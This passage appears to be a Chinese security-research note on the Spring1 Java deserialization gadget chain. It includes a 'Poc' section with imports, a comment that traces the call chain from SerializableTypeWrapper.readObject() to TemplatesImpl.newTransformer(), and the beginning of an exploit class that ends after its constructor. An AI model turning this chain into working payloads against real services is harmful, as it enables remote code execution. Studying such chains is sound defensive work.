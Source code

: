 ![image-20211116162858809](img/image-20211116162858809.png)

### 流程图

![image-20211116164843416](img/image-20211116164843416.png)

### Poc

```java
import Tools.SerializeUtil;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import org.springframework.beans.factory.ObjectFactory;

import javax.xml.transform.Templates;
import java.lang.annotation.Target;
import java.lang.reflect.*;
import java.util.HashMap;
/**
 * SerializableTypeWrapper$MethodInvokeTypeProvider.readObject()
 *     SerializableTypeWrapper.TypeProvider(Proxy).getType()
 * 	    AnnotationInvocationHandler.invoke()
 * 		    ReflectionUtils.invokeMethod()
 * 			    Templates(Proxy).newTransformer()
 * 				    AutowireUtils$ObjectFactoryDelegatingInvocationHandler.invoke()
 * 					    ObjectFactory(Proxy).getObject()
 * 						    TemplatesImpl.newTransformer()
 */
public class Sp1byme {
    public Sp1byme() throws ClassNotFoundException {
    }

```